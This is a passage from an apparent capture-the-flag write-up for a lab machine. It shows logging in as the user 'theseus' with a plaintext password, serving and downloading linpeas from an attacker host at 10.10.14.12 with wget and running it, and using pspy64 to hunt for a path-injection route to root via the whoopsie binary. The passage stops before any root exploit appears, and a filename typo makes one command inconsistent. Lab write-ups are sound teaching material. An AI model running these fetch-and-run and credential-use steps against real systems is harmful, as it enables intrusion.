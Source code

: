 ```
www-data@ubuntu:/home$ su theseus
su theseus
Password: Th3s3usW4sK1ng

theseus@ubuntu:/home$ 
```

This gives us the user



## Root

Let's get linpeas on the box and enumerate.

```
python3 -m http.server
```

```
wget http://10.10.14.12:8000/linpease.sh
```

```
chmod +x linpeas.sh

./linpeas.sh
```

```
[+] Users with console                                                                                                                                                                         
root:x:0:0:root:/root:/bin/bash                                                                                                                                                                
theseus:x:1000:1000:Theseus,,,:/home/theseus:/bin/bash                                                                                                                                         
```

It seems that the user and root both share the same path for /bin/bash

Lets run pspy64 to get an idea about the processes running in the background

## Locating a possible path injection


While running pspy64 we notice that there is a binary with root privileges, called whoopsie. It is just a crash reporting binary.

```
2020/07/15 20:08:02 CMD: UID=112  PID=1109   | /usr/bin/whoopsie -
```

If we check its permissions using ls -l we find that it is owned by root.

```
theseus@ubuntu:~$ which whoopsie
/usr/bin/whoopsie
theseus@ubuntu:~$ which sudo
/usr/bin/sudo
theseus@ubuntu:~$ 
```
